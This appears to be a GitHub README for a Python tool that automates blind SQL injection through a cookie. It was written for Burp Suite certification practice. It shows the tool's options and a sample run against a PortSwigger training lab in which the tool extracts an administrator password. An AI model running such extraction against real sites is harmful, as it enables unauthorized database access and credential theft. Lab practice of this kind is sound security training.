 # BSQLi
## Description
This tool help to extract data from databases with blind SQLi Injections  
I made this tool while preparing for BURP Practitioner certification. As most labs suggest to inject Blind SQLi in cookie,
this first version injects only in a specified cookie and only extracts password from table 'users' with columns 'username'
and 'password' of a single user.

## Requirements 
This script works with python 3.X
and needs requests module  
`pip3 install requests`

## Usage
```bash
PS C:\BSQLi> python .\bsqli.py -h 
usage: bsqli.py [-h] [-u U] [--cookies COOKIES] [--target TARGET] [--threshold THRESHOLD]

Automate Blind SQLI

optional arguments:
  -h, --help            show this help message and exit
  -u U                  url to test
  --cookies COOKIES     cookies
  --target TARGET       target cookie to inject
  --threshold THRESHOLD
                        sleep value
  --user USER           User to get password
```
example :
```bash
PS C:\BSQLi> python .\bsqli.py -u https://0ab4006203554a31c012a430005400b3.web-security-academy.net/ --cookies "TrackingId=XKIVlpvhenclkwq9; session=ooCCcMKy1o34VwWinSuRNvyssm3OkZJD" --target TrackingId --threshold 7 --user administrator

         ####    ###    ###   #        #
         #   #  #   #  #   #  #
         #   #  #      #   #  #       ##
         ####    ###   #   #  #        #
         #   #      #  #   #  #        #
         #   #  #   #  #   #  #        #
         ####    ###    ###   #####   ###
                           ##

testing 'https://0ab4006203554a31c012a430005400b3.web-security-academy.net/' for blind SQLi
Will sleep for 7 for the correct values.
[+] Connected to URL
[+] Target injectable
[+] Got user administrator
getting length.....
[+] Length is : 20
Extracting Data ....
blei2n48bania9gh6pgn
[+] Got : blei2n48bania9gh6pgn

```